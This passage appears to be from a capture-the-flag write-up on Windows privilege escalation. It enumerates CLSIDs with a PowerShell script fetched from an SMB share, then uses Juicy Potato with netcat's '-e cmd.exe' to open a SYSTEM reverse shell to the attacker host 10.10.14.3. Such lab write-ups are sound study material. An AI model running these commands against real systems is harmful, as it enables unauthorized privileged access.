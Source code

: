 After modifying the script, we recopy it to the target and execute it again. This time the script doesn't crash and instead provides us with a list of CLSID:s.

{% highlight none linenos %}
C:\Windows\Temp>del GetCLSID.ps1
del GetCLSID.ps1

C:\Windows\Temp>copy \\10.10.14.3\myShare\GetCLSID.ps1 .
copy \\10.10.14.3\myShare\GetCLSID.ps1 .
        1 file(s) copied.

C:\Windows\Temp>powershell.exe -ExecutionPolicy Bypass .\GetCLSID.ps1
powershell.exe -ExecutionPolicy Bypass .\GetCLSID.ps1

Name           Used (GB)     Free (GB) Provider      Root                      
----           ---------     --------- --------      ----                      
HKCR                                   Registry      HKEY_CLASSES_ROOT         
Looking for CLSIDs
Looking for APIDs
Joining CLSIDs and APIDs
[...]

AppId        : {69AD4AEE-51BE-439b-A92C-86AE490E8B30}
LocalService : BITS
CLSID        : {03ca98d6-ff5d-49b8-abc6-03dd84127020}


AppId        : {8C482DCE-2644-4419-AEFF-189219F916B9}
LocalService : EapHost
CLSID        : {8C482DCE-2644-4419-AEFF-189219F916B9}

[...]

AppId        : {8BC3F05E-D86B-11D0-A075-00C04FB68820}
LocalService : winmgmt
CLSID        : {8BC3F05E-D86B-11D0-A075-00C04FB68820}


AppId        : {653C5148-4DCE-4905-9CFD-1B23662D3D9E}
LocalService : wuauserv
CLSID        : {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
{% endhighlight %}

Next, we start a netcat listener `nc -lvnp 443`. To perform a privilege escalation using Juicy Potato, we will execute the command `\\10.10.14.3\myShare\jp.exe -t t -p c:\windows\system32\cmd.exe -a "/c \\10.10.14.3\myShare\nc.exe 10.10.14.3 443 -e cmd.exe" -l 1337 -c {[CLSID]}`, where `[CLSID]` is a CLSID form the output above. The command uses the `-t` flag to specify an attack method which can either be `t` if the `SeImpersonate` privilege is enabled or `u` if the `SeAssignPrimaryToken` privilege is enabled. The `-p` and `-a` flags are used to specify a binary to execute together with arguments to this binary. In this partiular case, these two flags specify that netcat should be used to provide us with a shell on the target. The `-l` flag specifies an arbitrary available port on the target machine which the exploit can use. Finally, the `-c` flag is used to specify a CLSID.

![juicyPotato](/assets/{{ imgDir }}/juicyPotato.png)

![systemShell](/assets/{{ imgDir }}/systemShell.png)
